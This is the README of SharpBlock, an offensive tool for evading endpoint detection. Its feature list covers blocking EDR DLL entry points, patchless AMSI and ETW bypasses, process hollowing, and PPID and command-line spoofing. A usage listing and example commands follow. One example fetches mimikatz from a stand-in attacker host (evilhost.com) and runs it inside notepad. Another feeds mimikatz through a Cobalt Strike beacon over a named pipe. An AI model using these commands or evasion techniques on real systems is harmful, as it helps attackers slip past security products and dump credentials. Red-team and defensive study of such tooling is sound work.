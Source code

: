 # SharpBlock
A method of bypassing EDR's active projection DLL's by preventing entry point execution.  

## Features

* Blocks EDR DLL entry point execution, which prevents EDR hooks from being placed.
* Patchless AMSI bypass that is undetectable from scanners looking for Amsi.dll code patches at runtime.
* Host process that is replaced with an implant PE that can be loaded from disk, HTTP or named pipe (Cobalt Strike)
* Implanted process is hidden to help evade scanners looking for hollowed processes.
* Command line args are spoofed and implanted after process creation using stealthy EDR detection method.
* Patchless ETW bypass.
* Blocks NtProtectVirtualMemory invocation when callee is within the range of a blocked DLL's address space

```
SharpBlock by @_EthicalChaos_
  DLL Blocking app for child processes x64

  -e, --exe=VALUE            Program to execute (default cmd.exe)
  -a, --args=VALUE           Arguments for program (default null)
  -n, --name=VALUE           Name of DLL to block
  -c, --copyright=VALUE      Copyright string to block
  -p, --product=VALUE        Product string to block
  -d, --description=VALUE    Description string to block
  -s, --spawn=VALUE          Host process to spawn for swapping with the target exe
  -ppid=VALUE                Parent process ID for spawned child (PPID Spoofing)
  -w, --show                 Show the lauched process window instead of the
                               default hide
      --disable-bypass-amsi  Disable AMSI bypassAmsi
      --disable-bypass-cmdline
                             Disable command line bypass
      --disable-bypass-etw   Disable ETW bypass
      --disable-header-patch Disable process hollow detection bypass
  -h, --help                 Display this help
  ```

## Examples

### Launch mimikatz over HTTP using notepad as the host process, blocking SylantStrike's DLL

```
SharpBlock -e http://evilhost.com/mimikatz.bin -s c:\windows\system32\notepad.exe -d "Active Protection DLL for SylantStrike" -a coffee
```

### Launch mimikatz using Cobalt Strike beacon over named pipe using notepad as the host process, blocking SylantStrike's DLL

```
execute-assembly SharpBlock.exe -e \\.\pipe\mimi -s c:\windows\system32\notepad.exe -d "Active Protection DLL for SylantStrike" -a coffee
upload_file /home/haxor/mimikatz.exe \\.\pipe\mimi
```
*Note, for the `upload_file` beacon command, load upload.cna into Cobalt Strike's Script Manager*



Accompanying Blog Posts: 
 * https://ethicalchaos.dev/2020/05/27/lets-create-an-edr-and-bypass-it-part-1/
 * https://ethicalchaos.dev/2020/06/14/lets-create-an-edr-and-bypass-it-part-2/
 * https://www.pentestpartners.com/security-blog/patchless-amsi-bypass-using-sharpblock/
 
